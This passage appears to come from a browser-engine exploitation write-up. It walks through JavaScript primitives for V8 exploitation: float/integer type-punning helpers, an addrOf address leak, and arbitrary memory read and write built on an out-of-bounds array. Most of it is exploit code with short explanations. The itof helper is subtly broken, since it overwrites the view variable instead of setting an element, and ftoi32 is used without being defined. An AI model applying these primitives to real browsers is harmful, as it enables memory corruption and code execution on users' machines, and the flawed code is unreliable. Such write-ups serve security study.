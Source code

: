 ```js
function i32tof(i1, i2) {
    intView[0] = i1;
    intView[1] = i2;
    return dblArr[0];
}
```

Places 2 32-bit values on `ArrayBuffer` and accesses them as a 64-bit value through `dblArr[0]`. As `dblArr` is 64-bit it will access 64-bits at once and return them. 

```js
function itof(i) {
    bigIntView = BigInt(i);
    return dblArr[0];
}

function ftoi(f) {
    dblArr[0] = f;
    return bigIntView[0];
}
```

The first function takes the integer and converts it to 64-bit and then to a float point number. The second function takes float and converts it to a 64-bit integer.

```js
function addrOf(obj, dblOffset) {
  oobObjArr[0] = obj;
  var addrDbl = oobDblArr[dblOffset];
  return ftoi32(addrDbl)[0];
}
```

`dblOffset` is offset of `OobDblArr` from either `OobObjArr` or `OobDblArr2`. The object whose address we want to find is placed at `oobObjArr[0]`. Then we use OOB read from `oobDblArr` to read the address of object from `OobObjArr`. We just need the 32-bit offset that is always same so we use `ftoi32()`.

```js 
function read(addr, dblArrOffset) {
  var oldValue = oobDblArr[dblArrOffset];
  oobDblArr[dblArrOffset] = i32tof(addr, 2);
  var out = ftoi32(oobDblArr2[0]);
  oobDblArr[dblArrOffset] = oldValue;
  return out;
}
```

`dblArrOffset` is offset of `OobDblArr` from either `OobObjArr` or `OobDblArr2`. Old value is saved. We overwrite the `elements` member of `OobDblArr2` with the `addr`. Now `oobDblArr2[0]` will access the value at `addr + 0x8` beacause the values are stored in `elements` after map (32-bit) and length (32-bit). We convert the float to 32-bit integer, replace the old value and return the address read at `addr + 0x8`.

```js
function write(addr, val1, val2, dblArrOffset) {
  var oldValue = oobDblArr[dblArrOffset];
  oobDblArr[dblArrOffset] = i32tof(addr, 2);
  oobDblArr2[0] = i32tof(val1, val2);
  oobDblArr[dblArrOffset] = oldValue;
  return; 
}
```
